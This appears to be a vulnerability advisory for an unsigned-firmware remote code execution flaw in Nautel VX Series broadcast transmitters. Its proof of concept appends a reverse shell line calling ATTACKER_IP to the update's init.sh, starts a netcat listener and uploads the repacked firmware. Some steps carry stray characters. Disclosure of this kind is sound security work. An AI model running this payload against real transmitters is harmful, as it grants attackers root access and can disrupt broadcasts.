 # Nautel VX Series Remote Code Execution (RCE) Vulnerability

## Description

The Nautel VX Series transmitters (firmware versions VX_SW_6.4.0 and below) contain a remote code execution (RCE) vulnerability in the firmware update process. Attackers can download the official update package, modify the included `init.sh` script to include malicious commands, and re-upload it to the `/#/software/upgrades` endpoint. Upon execution, the attack grants root access to the device.  

This vulnerability arises due to the **lack of digital signature verification** on uploaded firmware packages.  

## Vendor Information

- **Vendor**: Nautel  
- **Vendor Homepage**: [https://www.nautel.com/](https://www.nautel.com/)  

## Affected Products

- **Product**: Nautel VX Series  
- **Firmware/Software Versions Affected**:
  - VX_SW_6.4.0  
  - VX_SW_6.3.2  
  - VX_SW_6.3.1  
  - VX_SW_6.3.0  
  - VX_SW_6.1.1  
  - VX_SW_6.1.0  
  - VX_SW_6.0.3  

## Vulnerable Endpoint

- **Web Interface Software Update Page**:  
http://<target-ip>/#/software/upgrades


## Attack Type

- **Type**: Remote Code Execution (RCE)  
- **Classification**: Unauthorized Privilege Escalation via Software Update Manipulation  

## Impact

- **Severity**: Critical  
- **Description**:  
The Nautel VX Series transmitters contain an **unauthenticated remote code execution (RCE) vulnerability** in the software upgrade process. An attacker can modify firmware update files before uploading them to the device, leading to remote code execution with **root privileges**.  

By exploiting the `/#/software/upgrades` endpoint, an attacker can:
1. Download a legitimate update package (`.tgz`) from:
   ```
   http://www3.nautel.com/pub/VX_Series/
   ```
2. Extract and modify the `init.sh` script inside the package to include a reverse shell payload.  
3. Recompress and upload the malicious firmware to the transmitter via `/#/software/upgrades`.  
4. Initiate the upgrade process, which executes `init.sh`, granting **root-level shell access** to the attacker.  

## Affected Components

- **Firmware Update System** (`/#/software/upgrades`)  
- **Lack of Signature Verification** on Software Updates  

## Attack Vector

- **Access Method**: Remote unauthorized firmware modification  
- **Authentication Requirement**: None (if update process lacks validation)  
- **Exploit Complexity**: Low  

---

## Proof of Concept (PoC)

### Steps to Reproduce:

1. **Download the official VX Series firmware update (`.tgz`) from:**
http://www3.nautel.com/pub/VX_Series/
2. **Extract the `.tgz` archive and locate `init.sh`:**
```bash
tar -xvf VX_update_6.4.0.tgz
cd VX_update_6.4.0/
```
3. **Modify init.sh to include a reverse shell payload:**
   ```bash
   echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" >> init.sh
   ```
4. **Repack the firmware update:**
   ```bash
   tar -cvf VX_update_malicious.tgz *
   ```
5. **Upload the modified firmware to the transmitter's web interface:**
   - ** Navigate to:**

          http://<target-ip>/#/software/upgrades

    - ** Select and upload VX_update_malicious.tgz.**

6. **UStart a listener on the attacker's machine:**U
    ```bash
    nc -lvnp 4444
    ```

7. **UInitiate the update process on the transmitter.**
8. **UReceive a reverse shell with root access.**

---
# PoC Video

- **Demo Video**: [https://github.com/user-attachments/assets/0da69449-f252-46eb-a348-2de31e269ba5]  

---

# Vulnerability Type Information

- **Vulnerability Type**: Remote Code Execution via Unauthorized Firmware Modification  
- **CWE-ID**: [CWE-347 - Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)  
- **Definition**: The firmware update mechanism fails to validate digital signatures, allowing attackers to upload and execute modified firmware with arbitrary code.  

---

# Impact Information

### **Impact Type:**
- **Remote Code Execution (RCE)**: Attackers gain full control over the transmitter.  
- **Privilege Escalation**: The malicious script executes with **root privileges**.  
- **Network Compromise**: Attackers can pivot into internal networks.  
- **Broadcast Disruption**: Unauthorized firmware updates can **shut down** or alter transmission parameters.  

---

# Suggested Fixes

### **1. Implement Digital Signature Verification on Firmware Updates**
   - Ensure all update packages are **cryptographically signed** and verified before execution.  

### **2. Restrict Software Upload Access to Authorized Users Only**
   - Require **multi-factor authentication (MFA)** before allowing firmware updates.  

### **3. Implement Integrity Checks on Uploaded Files**
   - Use **SHA256 hash validation** to detect modified firmware before installation.  

### **4. Limit Execution Permissions on Update Scripts**
   - Prevent arbitrary execution of scripts in firmware update packages.  

---

# Mitigation & Workarounds

Until an official patch is released, **administrators should**:

- **Disable remote software updates** unless verified through **Nautel’s official process**.  
- **Monitor firmware upload logs** for suspicious activity.  
- **Use network firewalls** to block unauthorized access to the update endpoint.  

---

# Disclaimer

This report is for **educational and security research purposes only**. Unauthorized access or exploitation of any system without proper authorization **violates cybersecurity laws** and may result in legal consequences.  

---

# References

- [Nautel VX Series Official Page](https://www.nautel.com/)  
- [CWE-347: Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)  

